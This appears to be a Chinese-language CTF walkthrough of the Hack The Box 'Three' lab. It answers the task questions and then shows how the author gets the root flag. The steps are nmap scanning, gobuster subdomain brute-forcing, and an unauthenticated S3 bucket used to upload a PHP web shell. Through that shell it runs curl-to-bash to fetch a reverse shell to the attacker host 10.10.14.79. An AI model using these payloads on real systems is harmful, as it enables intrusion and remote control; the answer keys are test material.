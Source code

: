 Three

任务1

打开了多少个TCP端口？

使用nmap扫描主机地址

```
nmap -sV -p 0-65535 10.129.55.173
```

![image-20230606160554964](图片/image-20230606160554964.png)

答案：2

任务2

网站“联系方式”部分提供的电子邮件地址的域是什么？

thetoppers.htb



任务3

在没有DNS服务器的情况下，我们可以使用哪个Linux文件将主机名解析为IP地址，以便能够访问指向这些主机名的网站？

/etc/hosts

将网站添加到hosts

```
echo "10.129.55.173 thetoppers.htb" >> /etc/hosts
echo "10.129.55.173 s3.thetoppers.htb" >> /etc/hosts
```

任务4

在进一步的爆破过程中会发现哪个子域？

使用gobuster工具进行子域名爆破

字典下载地址：https://wordlists-cdn.assetnote.io/data/manual/2m-subdomains.txt

其他教程都是用vhost模块，但是我用hosts跑不出来，将s3加入hosts中使用dns爆破

```
gobuster dns -d thetoppers.htb -t 10  -w /root/文档/2m-subdomains.txt
```

![image-20230606155624048](图片/image-20230606155624048.png)

答案：s3.thetoppers.htb

任务5

哪个服务正在发现的子域上运行？

![](图片/image-20230606160444427.png)

使用的 `hypercorn` 这是一个 `ASGI` 服务器 ，`hypercorn`最初是Quart的一部分，后来被分离为 独立ASGI服务器。

答案：Amazon S3

任务6

哪个命令行实用程序可用于与在发现的子域上运行的服务交互？

awscli



任务7

以下哪一个命令用于设置AWS CLI安装？

aws configure



任务8

上述实用程序使用什么命令来列出所有S3存储桶？

aws s3 ls



任务9

此服务器配置为运行用哪种Web脚本语言编写的文件？

php



提交根标志



安装awscli

```
apt install awscli -y
```

我们将为所有字段使用任意值，因为有时服务器配置为不检查身份验证（仍然，它必须配置为 aws 才能工作）

```
awsc configure
```

![image-20230606184023325](图片/image-20230606184023325.png)

我们可以使用ls命令列出服务器托管的所有S3桶

```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

![image-20230606184213509](图片/image-20230606184213509.png)

我们还可以使用ls命令列出指定bucket下的对象和常用前缀

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

![image-20230606184314429](图片/image-20230606184314429.png)

我们在指定的桶中看到index.php、.htaccess文件和一个名为images的目录。看起来这是在80端口上运行的网站的web浏览器。因此Apache服务器使用这个S3桶作为存储。

Awscli还有另一个功能，允许我们将文件复制到远程存储桶。我们已经知道这个网站使用的是PHP。因此，我们可以尝试上传一个PHP shell文件到S3桶，由于它被上传到了webroot目录，我们可以在浏览器中访问这个网页，而浏览器将反过来执行这个文件，我们可以用来远程代码执行。

生成php执行系统命令，这条命令会导致用户执行任意系统命令

```
echo '<?php system($_GET["123"]); ?>' > shell.php
```

![image-20230606185227485](图片/image-20230606185227485.png)

我们可以将这个PHP shell上传到顶层服务器。使用以下命令创建S3桶

```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php  s3://thetoppers.htb
```

![image-20230606185451472](图片/image-20230606185451472.png)

使用下面地址访问执行id命令

```
http://thetoppers.htb/shell.php?123=id
```

![image-20230606185741127](图片/image-20230606185741127.png)服务器的响应包含操作系统命令 id 的输出，它验证了我们在盒子上执行了代码。 因此，现在让我们尝试获得一个反向 shell。 通过反向 shell，我们将触发远程主机在指定的监听端口上连接回我们本地机器的 IP 地址。 我们可以使用以下命令获取本地机器的 tun0 IP 地址

```
ifconfig
```

![image-20230606185907267](图片/image-20230606185907267.png)

让我们通过创建一个新文件shell.sh来获得一个反向shell，该文件包含以下bash反向shell有效负载，该有效负载将连接到端口5566上的本地机器

```
#! /bin/bash
bash -i >& /dev/tcp/10.10.14.79/5566 0>&1
```

我们将使用以下命令在本地端口5566上启动一个ncat侦听器。

```
nc -nvlp 5566
```

![image-20230606190532314](图片/image-20230606190532314.png)

让我们在本地机器的端口8000上启动一个web服务器，并托管这个bash文件。这里需要注意的是，这个用于托管web服务器的命令必须从包含反向shell文件的目录中运行。因此，我们必须首先进入到适当的目录，然后运行以下命令。

```
python3 -m http.server 8000
```

![image-20230606190646022](图片/image-20230606190646022.png)

我们可以使用curl实用程序从本地主机获取bash反向shell文件，然后将其管道传输到bash以执行它。因此，让我们在浏览器中访问包含有效负载的以下URL。

```
http://thetoppers.htb/shell.php?123=curl%2010.10.14.79:8000/shell.sh|bash
```



我们在相应的监听端口上接收到一个反向shell。进入网站找到flag

![image-20230606191127222](图片/image-20230606191127222.png)

